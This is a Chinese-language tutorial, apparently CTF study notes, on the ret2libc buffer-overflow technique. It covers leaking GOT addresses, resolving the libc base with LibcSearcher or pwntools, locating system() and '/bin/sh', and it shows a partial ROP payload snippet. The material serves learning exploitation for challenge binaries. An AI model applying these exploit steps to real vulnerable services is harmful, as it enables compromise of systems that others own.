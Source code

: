 # ret2libc

> 找到system()函数的地址和"/bin/sh"的地址
>
> * 当程序中没有"/bin/sh"字符串时，我们可以利用程序中某些函数如:read,fgets,gets等函数将"/bin/sh"字符串写入bss段或某个变量中，并且要可以找到其地址；
>
> * 当程序中没有"/bin/sh"字符串时，执行system(sh)的效果与/bin/sh相同
>
> * 对于只给出了libc.so文件的程序，我们可以直接在libc.so文件当中去找system()函数和"/bin/sh"字符串，因为libc.so文件中也是包含了这些的；
>
> * 最后对于没有给出libc.so文件的程序，我们可以通过泄露出程序当中的某个函数的地址，通过查询来找出其使用lib.so版本是哪一个
>
> tips：
>
> * 32位libc 0xf7开头
> * 64位libc  0x7f开头
> * 偏移地址：libc是Linux新系统下的C函数库，其中就会有system()函数、"/bin/sh"字符串，而libc库中存放的就是这些函数的偏移地址。换句话说，只要确定了libc库的版本，就可以确定其中system()函数、"/bin/sh"字符串的偏移地址。解题核心在于如何确定libc版本
> * 基地址：每次运行程序加载函数时，函数的基地址都会发生改变。然而，哪怕每次运行时函数的真实地址一直在变，最后三位确始终相同。可以根据这最后三位是什么确定这个函数的偏移地址，从而反向推断出libc的版本（此处需要用到工具LibcSearcher/LibcSearcher3库）

## 1.解题思路

ret2libc类题目特点：

- 开启了NX保护不能写入shellcode并且ret2shellcode这样的方法不能拿shell
- 程序本身也没有像system("/bin/sh")这样直接的后门函数，因此没有ret2text这么直接
- 程序中可能既没有system函数，又没有"/bin/sh"字符串，需要我们在libc库中寻找



## 2.利用过程

### 2.1 泄露地址

需要程序中有输出函数能输出地址（puts，printf，write），通过输出函数，获取已经绑定过的函数的got表项内容

下面以write函数为例：

32位利用：

![image-20240820194500810](./assets/4.ret2libc/image-20240820194500810.png)

64位利用：

需要控制三个参数，rdi，rsi，rdx
第三个参数代表输出的size，如果没有rdx的gadget可以暂时不管，输出多少无所谓

### 2.2 获取libc基址

Python ljust() 方法返回一个原字符串左对齐,并使用空格填充右侧至指定长度的新字符串。如果指定的长度小于原字符串的长度则返回原字符串

ljust()方法语法：

```
str.ljust(width[, fillchar])
```

```c
write_addr = u64(io.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))
```

​	

* 使用LibcSearcher获取libc基址（libc版本未知的情况下）

```python
from LibcSearcher import *
libc = LibcSearcher("write",write_addr) #使用一个已知符号地址作为约束条件初始化libsearcher
libc.add_condition("puts",puts_addr) #添加一个约束条件
libc_base = write_addr - libc.dump("write")
bin_sh_addr = libc_base + libc.dump("str_bin_sh")
system_addr = libc_base + libc.dump("system")
```

* 给了libc的情况下，使用elf的search

```python
libc = ELF("./libc.so.6")
# libc.address = 0 ，也可以指定libc.address，然后函数地址就是VA了
libc_base = write_addr - libc.symbols['write']
bin_sh_addr = libc_base + next(libc.search(b"/bin/sh"))
system_addr = libc_base + libc.symbols['system']
```

* ROPgadget --binary libc.so --string '/bin/sh'
* one_gadget 查找已知的libc中exevce("/bin/sh") 语句的地址
* 在线查询网址：https://libc.rip/

### 2.3 控制程序流执行

如：泄露出puts的got表内容后，重新回到start开始执行

```python
start = elf.sym['_start']
puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
payload1 = flat([cyclic(0x64), b'a'*12, puts_plt, start, puts_got, b'\n'])
```

